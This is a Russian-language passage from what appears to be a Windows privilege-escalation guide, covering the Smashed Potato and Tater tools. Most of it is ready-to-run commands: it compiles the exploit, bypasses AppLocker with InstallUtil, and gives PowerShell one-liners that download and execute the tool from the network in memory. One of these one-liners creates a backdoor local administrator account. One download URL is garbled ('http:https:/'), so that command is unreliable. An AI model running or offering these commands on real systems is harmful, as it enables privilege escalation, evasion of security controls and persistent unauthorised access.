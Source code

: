 ### Повышение привилегий с Smashed Potato

[Smashed Potato](http://github.com/Cn33liz/SmashedPotato) - модифицированная версия Hot Potato, о которой говорилось ранее.

Основные изменения включают:
- Все .NET-сборки объединены в одну, преобразованную в массив байтов (Byte[]).
- Сборка Potato запускается непосредственно из памяти.
- Реализован обход AppLocker с использованием InstallUtil.
- Добавлена автоматизация для упрощения работы.
- Инструмент имеет открытый исходный код, поэтому для его сборки нужно выполнить следующее.

Для 32-разрядных систем:

```cmd
cd \Windows\Microsoft.NET\Framework\v4.0.30319
csc.exe /out:"C:\Utils\SmashedPotatoX86.exe" /platform:x86 "C:\Utils\SmashedPotato.cs"
```

Для 64-разpядных: 

```cmd
cd \Windows\Microsoft.NET\Framework64\v4.0.30319
csc.exe /out:"C:\Utils\SmashedPotatoX64.exe" /platform:x64 "C:\Utils\SmashedPotato.cs"
```

Чтобы запустить инструмент с обходом AppLoсker, нужно выполнить следующее:

```cmd
cd \Windows\Microsoft.NET\Framework\v4.0.30319
InstallUtil.exe /logfile= /LogToConsole=false /U C:\Utils\SmashedPotatoX86.exe
```

Вот однострочный PowerShell-скрипт, который выполнит все перечисленные действия для x64-машины:

```powershell
powershell -ExecutionPolicy Bypass -noLogo -Command
(new-object System.Net.WebClient).DownloadFile('http:https:/github.com/Cn33liz/SmashedPotato/SmashedPotato.cs'
 ','%temp%\SmashedPotato.cs'); && cd
c:\Windows\Microsoft.NET\Framework64\v4.* && csc.exe
/out:"%temp%\SmashedPotatoX64.exe" /platform:x64
"%temp%\SmashedPotato.cs" && InstallUtil.exe /logfile=
/LogToConsole=false /U %temp%\SmashedPotatoX64.exe
```

### Повышение привилегий с Tater

Если на машине отсутствует .NET Framework, можно использовать PowerShell-версию Hot Potato — [Tater](https://github.com/Kevin-Robertson/Tater)

Эта утилита загружается в память и не оставляет следов на диске.

Для её запуска достаточно одной строки:

```powershell
powershell "IEX (New-Object Net.WebClient).DownloadString('https://github.com/Kevin-Robertson/Tater/blob/master/Tater.ps1');
Invoke-Tater -Trigger 1 -Command ""net user User1
Password1 /add && net localgroup administrators User1 /add"""
```
